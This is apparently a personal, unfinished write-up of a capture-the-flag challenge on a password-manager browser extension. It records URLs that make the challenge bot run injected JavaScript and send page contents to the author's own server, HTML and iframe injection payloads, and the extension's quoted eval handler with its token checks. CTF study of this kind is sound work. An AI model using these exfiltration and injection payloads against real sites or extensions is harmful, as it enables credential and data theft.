 ```yaml
---
ai_date: 2025-04-27 05:22:12
ai_summary: Found eval function with custom token validation, allowing code execution; also discovered iframe injection for injecting tokens.
ai_tags:
  - eval
  - xss
  - iframe-injection
created: 2024-06-29T18:39
updated: 2025-07-14T09:46
---
```


**FAILED TO SOLVE**

I am allowed to make the bot visit any website, so...

## Analyze

The bot's window has some extra keys

```js
['event', 'fence', 'sharedStorage', 'fetchLater', 'onpageswap', 'onpagereveal', 'model']
```

The bot does the following things
- Goto https://pwnypass.c.hc.lc/login.php
- Fill up username password and submits
- Goto my URL

Sending it to `https://attack.yun.ng/attack/uiuctf?extra=track({chrome:chrome})`

### Chrome
Turns out chrome is accessible.

Sending it to `https://attack.yun.ng/attack/uiuctf?extra=track({a:analyze(chrome)})&no`

```json
{
    "loadTimes:function": {
        "requestTime": 1719704395.397,
        "startLoadTime": 1719704395.397,
        "commitLoadTime": 1719704395.543,
        "finishDocumentLoadTime": 0,
        "finishLoadTime": 0,
        "firstPaintTime": 0,
        "firstPaintAfterLoadTime": 0,
        "navigationType": "Other",
        "wasFetchedViaSpdy": true,
        "wasNpnNegotiated": true,
        "npnNegotiatedProtocol": "h3",
        "wasAlternateProtocolAvailable": false,
        "connectionInfo": "h3"
    },
    "csi:function": {
        "startE": 1719704395397,
        "onloadT": 0,
        "pageT": 155.841,
        "tran": 15
    },
    "app:object": {
        "isInstalled:boolean": false,
        "getDetails:function": null,
        "getIsInstalled:function": false,
        "runningState:function": "cannot_run",
        "InstallState:object": {
            "DISABLED:string": "disabled",
            "INSTALLED:string": "installed",
            "NOT_INSTALLED:string": "not_installed"
        },
        "RunningState:object": {
            "CANNOT_RUN:string": "cannot_run",
            "READY_TO_RUN:string": "ready_to_run",
            "RUNNING:string": "running"
        }
    }
}
```

Nothing interesting... Maybe add some delay?

Sending it to `https://attack.yun.ng/attack/uiuctf?extra=setTimeout(()=>{track({a:genTree(document),b:allInputs()})},5000)&no`

Theres a DIV element added.

Send `https://attack.yun.ng/attack/uiuctf?extra=setTimeout(()=>{track({a:document.body.innerHTML})},5000)&no`

```html
<div class="pwnypass-autofill-host" style="position: fixed !important; z-index: 9999 !important; inset: 0px !important; pointer-events: none !important;"></div>
```

hrmm...

### Background.js

```js
async function evaluate(_origin, data) {
    return eval(data);
}


const commands = {
    read,
    write,
    evaluate // DEPRECATED! Will be removed in next release.
}
```

Then I realized this.

So what's between me and that sweat `eval`? A custom token.

```js
if (await doHmac(token) !== hmac) return;                       // I need to obtain hmac from issue
let [ts, tab, origin, command] = token.split("|");              // payload be [time, tabid, mytab, 'evaluate','code','dummy']
if (parseInt(ts) + 60*5 < Math.floor(Date.now()/1000)) return;  // i have 5 minutes
if (sender.tab.id !== parseInt(tab)) return;                    // it must be from the same tab
if (await getOrigin(parseInt(tab)) !== origin) return;          // the tab must be of that origin
```

### Autofill.js

We can inject into that little popup via username and password.

```html
<meta http-equiv="refresh" content="0; url=https://webhook.site">
```

It works but is not useful.

I can also inject an iframe.

```html
<iframe src="./autofill.html?token=TOKEN&hmac=HMAC"></iframe>
```

It allows me to pass any token and hmac, but I still have to obtain their values first.

... Idk.
